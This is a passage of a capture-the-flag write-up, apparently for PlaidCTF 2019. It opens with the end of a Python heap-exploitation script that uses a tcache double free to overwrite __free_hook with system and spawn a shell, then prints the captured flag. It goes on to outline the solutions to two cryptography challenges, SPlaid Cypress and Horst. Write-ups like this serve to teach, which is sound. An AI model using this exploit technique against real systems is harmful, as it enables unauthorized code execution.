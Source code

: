 ```python
    log.success("libc.address: {:#x}".format(libc.address))
    # make tcache 0x20 duplicate
    add("1", "sh\x00")
    add("2", "sh\x00")
    remove(0)
    remove(0)
    # overwrite __free_hook to system
    add("4", p64(libc.symbols.__free_hook))
    add("5", p64(libc.symbols.system))
    # will call free("sh")
    add("6", "sh".ljust(0x68, "\x00"))
    r.interactive()

```
flag: `PCTF{ccccccppppppppppppPPPPP+++++!}`



## Crypto
### SPlaid Cypress
#### TL;DR
1. Find those known plaintext.
2. Count the mean and variance of output bit length at each position.
3. Reconstruct the splay tree from the end.
4. Recover central directory file header.
5. Reconstruct local file header based on central directory file header.
6. Reconstruct the initial splay tree.
7. Decrypt the zip and enjoy the flag.

The writeup is quite long, you can read it [here](https://sasdf.cf/ctf/writeup/2019/plaid/crypto/cypress/).
Briefly, It tooks me a lot of time find features to segment the bitstream, and find a way to generate plaintext similar to the secret.

### Horst
We are given two files: the main script `horst.py`, used for encryption and decryption; `data.txt`, which includes two plaintext-ciphertext pairs. The encryption function is defined as follows:

```python
M = 3
...
def encrypt(m, k):
    x, y = m
    for i in range(M):
        x, y = (y, x * k.inv() * y * k)
    return x, y

```
where `x`, `y` are both permutations of the set `{1, 2, ..., 64}`. Our goal is to recover the key `k`. After some calculations (of 3 round encryption), we know that if the plaintext is `(x, y)`, then the ciphertext would be `(yk'xk'ykk, xk'yyk'xk'ykkk)`, where `k'` is `k.inv()`, as defined in the main script, the inverse of `k`.
Let `(x1, y1)`, `(c1, d1)` be the plaintext and ciphertext of the first pair, respectively. `(x2, y2)` and `(c2, d2)` follow the similar definitions. Notice that `d1d2' = x1k'y1c1c2'y2'kx2'` holds. Let `t = x1'd1d2'x2` and `b = y1c1c2'y2'`, we have `t = k'bk`, that is, `t` is a conjugate of `b` with respect to `k'`. According to [Theorem 2](http://mathonline.wikidot.com/conjugate-cycles), if we know the cycle notations of `b` and `t`, then we can construct `u` such that `t = ubu'`, and `u` will be a candidate of `k'`. Here is the exploit:

